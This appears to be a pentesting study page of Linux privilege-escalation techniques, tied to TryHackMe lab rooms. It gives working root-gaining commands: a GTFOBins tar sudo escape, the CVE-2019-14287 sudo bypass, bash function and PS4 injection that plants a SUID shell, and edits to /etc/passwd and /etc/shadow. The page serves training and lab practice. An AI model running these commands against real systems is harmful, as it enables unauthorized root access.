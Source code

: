 # Compromise a Linux host

<p>

[![linuxfundamentalspart1](../../_badges/thm/linuxfundamentalspart1.svg)](https://tryhackme.com/room/linuxfundamentalspart1)
[![linuxfundamentalspart2](../../_badges/thm/linuxfundamentalspart2.svg)](https://tryhackme.com/room/linuxfundamentalspart2)
[![linuxfundamentalspart3](../../_badges/thm/linuxfundamentalspart3.svg)](https://tryhackme.com/room/linuxfundamentalspart3)
[![linux1](../../_badges/thm/linux1.svg)](https://tryhackme.com/room/linux1)
[![linux2](../../_badges/thm/linux2.svg)](https://tryhackme.com/room/linux2)
[![bashscripting](../../_badges/thm/bashscripting.svg)](https://tryhackme.com/room/bashscripting)
[![linuxstrengthtraining](../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)
[![catregex](../../_badges/thm/catregex.svg)](https://tryhackme.com/room/catregex)
[![linuxprivesc](../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linprivesc](../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linux_privilege_escalation](../../_badges/poat/linux_privilege_escalation.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
</p>

<div class="row row-cols-md-2"><div>

As there isn't much we can do as a regular user, we will try to elevate our level of privileges to root (administrator). You may have to do lateral movement first, i.g. moving to another account that has the same level of privilege, but may have different permissions.

* Find misconfiguration <small>(sudo, system files, NFS...)</small>
* Find a vulnerable service and exploit it <small>(apache, mysql...)</small>
* Find processes/tasks/script in which you can inject data
  * cron jobs
  * executables with the SUID bit
  * ...
* Find a vulnerability in the kernel
* ...

</div><div>

There are many scripts **automated scripts** that will investigate usual places, services, files... that you may want to look at. You will still have to understand the output, dig into it...

* [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) (10.4k ⭐): enumerate host | script shell
* [LinEnum](https://github.com/rebootuser/LinEnum) (5.4k ⭐): enumerate host | script shell
* [traitor](https://github.com/liamg/traitor)  (5.4k ⭐): enumerate/exploit host | script in go
* [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) (lse, 2.5k ⭐): enumerate host | script shell
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker) (1.1k ⭐): enumerate host | python script
</div></div>

<hr class="sep-both">

## 🎁 GTFOBins 🎁

<div class="row row-cols-md-2"><div>

It's common for well-known Linux commands to be misconfigured. Vulnerabilities can lead to reading/writing root-only files, execute commands as root...

**[gtfobins](https://gtfobins.github.io/)** (7.4k ⭐) is the reference when looking for commands to exploit misconfigured Linux commands.

> There is a local version of [gtfo in Python](https://github.com/t0thkr1s/gtfo) (96 ⭐, 2021).
</div><div>

Example: you can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a bash as root.

```bash
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

> I'm adding [some extras here](gtfobins.md).
</div></div>

<hr class="sep-both">

## Misconfigured permissions

<div class="row row-cols-md-2"><div>

If `/etc/passwd` was <s>intentionally</s> misconfigured

```bash
$ cat /etc/passwd
# if you can read it: try to bruteforce the password
# if you can write it: change the root password
# (copy a password / generate one mkpasswd -m sha-512 toto)
```

If `/etc/shadow` was <s>intentionally</s> misconfigured

```bash
$ cat /etc/shadow
# if you can write it: make your user part of root group
# if you can write it: add a new user that is part of root group
# (copy a password / generate one mkpasswd -m sha-512 toto)
```
</div><div>

Until 1979/Unix V7, passwords were stored in `/etc/passwd`, so a regular user could read them, and try brute-forcing the password.

```bash
$ cat /etc/shadow
- root:x:...
+ root:hashed_password:...
# openssl passwd toto
```
</div></div>

<hr class="sep-both">

## SUID/GUID bit

[![vulnversity](../../_badges/thm-p/vulnversity.svg)](https://tryhackme.com/room/vulnversity)
[![kenobi](../../_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)
[![rrootme](../../_badges/thm-p/rrootme.svg)](https://tryhackme.com/room/rrootme)

<div class="row row-cols-md-2"><div>

Scripts having the SUID bit can be executed with the permissions of their owner. GUID is the same with the group owner permissions. If you find interesting files using find, check them out on GTFOBins.

```bash
# "-04000" "-4000" | "-4001"
$ find / -perm -u=s -type f -ls 2>/dev/null
# and group
$ find / -perm -g=s -type f -ls 2>/dev/null
```

> **CVE-2021-4034**: `/usr/bin/pkexec` a file installed by default on
every major Linux distribution with a **SUID bit** could be exploited to get root. See [arthepsy PoC](https://github.com/arthepsy/CVE-2021-4034) (913 ⭐), or [berdav PoC](https://github.com/berdav/CVE-2021-4034) (1.7k ⭐).
</div><div>

If the script **hand-made**, or **not on GTFOBins**, then you can use the commands below to hopefully find which files and environment variables the script is using

* `strace script`: see every system call
* `strings script`: extract every readable string, may not be installed
</div></div>

<hr class="sep-both">

## Exploit sudo

*A good reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)* (1.6k ⭐).

<div class="row row-cols-md-2"><div>

[![picklerick](../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)

Try to find commands that can be run with sudo

```bash
$ sudo -nl # test if you can sudo without a password
$ sudo -l # if you can't, try with your password
# -> if both cases, if you were successful
# and there are some interesting stuff such as:
Matching Defaults entries for [...]:
    [...] # try to exploit values here (LD_PRELOAD...)

User [...] may run the following commands on [...]:
    (root) /bin/tar # see tar#sudo on GTFOBins
```
</div><div>

**sudo before 1.8.28 (CVE-2019-14287)**

[![agentsudoctf](../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `nc`, then it was possible for any user to bypass the check, and run the command as root.

```bash
$ sudo -u#-1 nc
$ sudo -u#4294967295 nc
```
</div></div>

<hr class="sep-both">

## Exploit bash

<div class="row row-cols-md-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allow us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```bash
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Kernel exploits

<div class="row row-cols-md-2"><div>

Kernel exploits should be used at a last resort, as they will most probably severely impact the machine state/crash the machine if they fail. You can find the complete list of CVE for the Linux Kernel [here](https://www.linuxkernelcves.com/cves).

* [Dirty COW](https://en.wikipedia.org/wiki/Dirty_COW) on Linux kernel <4.8.3
</div><div>

There are scripts, but remember that they may generate false positives or false negatives.

* [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester) (3.9k ⭐): still updated with new exploits
* [Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) (1.6k ⭐): up to 4.x excluded
* [Linux Kernel Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) (1.4k ⭐): up to 5.x excluded
</div></div>

<hr class="sep-both">

## Random

<div class="row row-cols-md-2"><div>

The Fork bomb is an attack wherein a process continually replicates itself to deplete available system resources, according to [Wikipedia](https://en.wikipedia.org/wiki/Fork_bomb).
</div><div>
</div></div>